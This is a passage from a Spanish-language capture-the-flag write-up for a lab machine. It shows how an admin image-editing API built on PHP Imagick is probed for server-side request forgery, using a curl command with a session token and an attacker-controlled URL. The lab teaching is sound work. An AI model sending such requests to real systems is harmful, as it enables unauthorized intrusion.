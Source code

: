```bash
< Access-Control-Allow-Origin: *
< X-Frame-Options: SAMEORIGIN
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< 
data:image/jpeg;base64 ... [snip]
```

¿Y qué hacemos con el endpoint?, en una parte de la asset del panel administrativo hay un texto que dice

> The v2 API also comes with some neat features we are testing that could allow users to apply cool effects to the images. I've included some examples on the image editing page, but feel free to browse all of the available effects for the module and suggest some: https://www.php.net/manual/en/class.imagick.php

Se está utilizando el iMagick de PHP para procesar las imágenes, analizando la documentación de la clase podemos ver que para empezar a manipular la imagen se debe crear un objeto utilizando de argumento la ubicación o dirección del fichero

![PHP When](/assets/writeups/intentions/6.png)

Nosotros podemos controlar eso... podemos verificarlo poniendo una URL de un servidor web que controlemos y viendo como la máquina intenta obtener el fichero que supuestamente está en el servidor que controlamos

```bash
❯ curl -v -b "token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vaW50ZW50aW9ucy5odGIvYXBpL3YyL2F1dGgvbG9naW4iLCJpYXQiOjE2OTcwNDY4NzIsImV4cCI6MTY5NzA2ODQ3MiwibmJmIjoxNjk3MDQ2ODcyLCJqdGkiOiJwa0dTQlpDRzRiVENoa3NMIiwic3ViIjoiMiIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.jWp6176OU9xc44OFXiyjHX58bBhiyk2WryA9dLvwmzo" -H "Content-Type: application/json" -d "{\"path\":\"http://10.10.14.173:8000/asd\",\"effect\":\"Swirl\"}" http://intentions.htb/api/v2/admin/image/modify
*   Trying 10.10.11.220:80...
* Connected to intentions.htb (10.10.11.220) port 80
> POST /api/v2/admin/image/modify HTTP/1.1
> Host: intentions.htb
> User-Agent: curl/8.3.0
> Accept: */*
```